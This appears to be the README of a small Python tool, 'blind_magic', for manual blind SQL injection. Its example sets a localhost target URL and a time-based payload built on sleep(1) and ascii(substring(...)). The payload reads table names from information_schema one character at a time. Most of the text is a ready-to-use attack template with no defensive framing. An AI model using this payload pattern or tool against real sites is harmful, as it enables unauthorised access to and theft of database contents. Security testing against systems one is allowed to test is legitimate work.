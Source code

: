 # blind_magic 0.1.1 (first blood)
Manual Blind SQL Injection

Some trick:
I supply to you 5 loop variable l1 to l5 {l1} {l2} {l3} {l4} {l5}

Blind query statament:
{CONDITION_QUERY}: 
{QUERY}
{OPERATOR}
{CHAR}

example:

blind_magic = Blind_magic()
blind_magic.l(13,5,0,0,0,1,0,0,0,0)
blind_magic.url = "http://localhost/?id="
blind_magic.base_query = "if(({CONDITION_QUERY}),sleep(1),NULL)"
blind_magic.condition_query = "ascii(substring(({QUERY}),{l1},1)){OPERATOR}{CHAR}"
blind_magic.query = "select table_name from information_schema.tables limit {l2},1"
blind_magic.run()
print blind_magic.result
